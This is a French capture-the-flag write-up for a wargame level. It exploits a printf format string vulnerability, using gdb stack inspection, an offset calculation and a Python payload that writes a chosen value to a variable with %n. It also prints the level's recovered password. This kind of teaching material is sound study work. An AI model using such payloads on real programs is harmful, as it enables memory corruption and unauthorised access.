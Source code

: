 # Format String Exploitation

En décompilant l'exécutable, on remarque que le programme compare une variable m à la valeur 0x1025544.  
Il contient également un printf qui ne prend qu'un argument. Nous allons exploiter la faille format string.

L'objectif est d'utiliser les modifiers de printf pour écrire à l'adresse de la variable m, la valeur 0x1025544 et ainsi valider la condition qui exécutera un `cat` du fichier contenant le mot de passe du `level5`

Premièrement, convertissons `0x1025544` en base10.
```
0x1025544 = 16930116
```

Pour comprendre la faille, voici quelques exemples. Exécutons gdb pour avoir une idée du fonctionnement de la stack :

```
> gdb level4
[...]
> (gdb) disas p
[...]
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```

On break juste après l'exécution du `printf` pour observer la stack, puis on lance le programme.

```
> (gdb) b *0x08048455
[...]
> (gdb) r
```

Voyons avec un exemple simple, donnons ceci argument %1$p. Cela va nous permettre de connaitre l'addresse du premier argument.

```
%1$p
[...]
0xb7ff26b0

Breakpoint 1, 0x08048455 in p ()
> (gdb) x $esp + 0x04
[...]
0xbffff4c4:	0xb7ff26b0
```

On retrouve donc bien notre premier argument. 
`0xb7ff26b0` est donc l'addresse de notre premier argument.

Essayons maintenant en donnant en argument la chaine de caractère AAAA. Nous allons associer %p avec les modifiers $1 qui sert a indiquer à printf qu'il faut l'utiliser en premier argument.

```
> (gdb) run
AAAA%1$p
> (gdb) x $esp 
[...]
0xbffff4c0:	0xbffff4f0
> (gdb) x 0xbffff4f0
[...]
0xbffff4f0:	0x41414141
```

En faisant `x $esp` on obtient l'addresse d'`esp`. Si on affiche cette addresse, on retrouve bien nos `AAAA`

On peut donc faire notre soustraction pour connaitre l'`offset`. Donc `0xbffff4f0 - 0xbffff4c0`  
Ce qui nous donne en héxadécimal `0x30` et `48` en base 10.

On fait `48 / 4` et on obtient `12`.  
L'offset est donc de `12`. On peut vérifier ça en affichant notre pile. 
Notre premier argument étant à `esp + 0x04`, on à un décalage de 1. 

```
> (gdb) x/13wx $esp
[...]
0xbffff4c0:	0xbffff4f0	0xb7ff26b0	0xbffff734	0xb7fd0ff4
0xbffff4d0:	0x00000000	0x00000000	0xbffff6f8	0x0804848d
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141
```

On retrouve bien notre premier argument qui est `0xb7ff26b0` est notre `AAAA` qui est `0x41414141`. 

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 12ème argument, qui est maintenant `0x41414141`.


Pour obtenir l'addresse de m, nous pouvons faire:

```
> gdb ./level4
[...]
> (gdb) info variables
[...]
0x08049810  m
```

L'addresse de m est donc `0x08049810`
En little-endian, cela nous donne : `\x10\x98\x04\x08`

Nous ne pouvons pas faire d'overflow puisque notre programme attend `16930116` caractères. Néanmoins, nous pouvons utiliser le décalage dans printf, car le %d n'est pas écris dans le stack. Nous n'avons donc pas besoin de faire `A * 16930116` ce qui ne serait pas possible. 

Nous allons donc écrire à l'addresse de m en ajoutant nos `16930116` caractères, avec un `offset` de 12.

```
> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /var/tmp/hack4
> cat /var/tmp/hack4 | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Pourquoi ? `16930112` et pas `16930116` ?  
Tout simplement, parce l'addresse de M fait 4 bites. On soustrait donc 4 bites à notre nombres !








